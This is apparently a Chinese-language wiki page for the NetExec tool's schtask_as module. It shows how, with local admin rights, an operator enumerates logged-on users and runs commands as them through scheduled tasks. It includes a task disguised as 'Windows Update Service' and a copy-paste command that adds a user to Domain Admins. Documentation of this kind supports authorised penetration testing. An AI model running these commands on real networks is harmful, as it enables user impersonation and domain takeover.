

# 🆕 模拟已登录用户


你需要在远程目标上至少具有本地管理员权限


感谢 [@Defte\_](https://twitter.com/Defte\_) 的贡献，`schtask_as` 模块可以代表目标上有会话的其他用户执行命令。

### 1. 枚举目标上的已登录用户

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. 代表其他用户执行命令

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><figcaption></figcaption></figure>

### 模块选项：

```
CMD            要执行的命令
USER           要以其身份执行命令的用户
TASK           可选：设置计划任务的名称
FILE           可选：设置命令输出文件的名称
LOCATION       可选：设置命令输出文件的位置（例如 '\tmp\'）
```

示例：

```
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

用于将用户添加到域管理员组的自定义命令，方便复制粘贴：

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
